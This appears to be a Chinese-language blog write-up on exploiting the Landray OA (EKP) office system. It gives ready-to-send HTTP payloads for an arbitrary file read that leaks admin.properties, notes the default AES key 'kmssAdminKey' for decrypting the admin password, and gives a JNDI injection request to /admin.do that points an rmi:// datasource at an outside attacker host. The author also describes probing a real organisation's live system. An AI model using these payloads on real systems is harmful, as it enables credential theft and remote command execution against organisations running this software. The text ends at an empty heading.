 1、将GET请求修改为POST，并加上payload请求数据发送

  * 

    
    
    var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}

2、注意构造的请求需要添加

  * 

    
    
    Content-type: application/x-www-form-urlencoded

 **payload请求包**

  *   *   *   *   *   *   *   *   *   *   * 

    
    
     POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1User-Agent: Go-http-client/1.1Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencodedHost: xx.xxxx.xxxxAccept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2Connection: closeContent-Length: 60  
    var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}  
    

‍

![](https://gitee.com/fuli009/images/raw/master/public/20230715094058.png)

获取到的password是/admin.do页面的登录密码，由于蓝凌OA默认是AES加密，并且默认密钥为kmssAdminKey，所以只要拿着password进行解密就好。解密可行网站：https://www.qtool.net/des

![](https://gitee.com/fuli009/images/raw/master/public/20230715094059.png)

下面是使用工具进行的测试，工具成功发现蓝凌OA的SSRF_JNDI漏洞，并且直接返回password。  

![](https://gitee.com/fuli009/images/raw/master/public/20230715094100.png)

 **二、SSRF+JNDI远程命令执行** **漏洞描述**
蓝凌OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 即可利用 JNDI远程命令执行获取权限。
**漏洞复现说明** 当可以登录admin.do后，可以在该页面抓包构造恶意请求来实现JNDI注入，payload请求包如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /admin.do HTTP/1.1Host: Cookie: SECKEY_ABVK=fFfxSmGgwCxPb4YX/Np8Myqx5lRiviM/yrqMs+vCzas%3D; Content-Length: 70Cache-Control: max-age=0Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"Sec-Ch-Ua-Mobile: ?0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Origin: https://X.X.X.XContent-Type: application/x-www-form-urlencodedAccept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8  
      
    method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/dnslog  
    

可以使用JNDI-Injection-Exploit-1.0-SNAPSHOT-
all.jar工具开启一个rmi/ldap服务，此次事件的蓝凌OA系统该JNDI注入漏洞没有回显成功，但是通过dnslog测试可以确定存在该漏洞，可惜迫于事态严重性和上级压力，网站事后当天就将OA系统关闭。我就不做细说明了，网上也有较多教程。
**具体步骤**
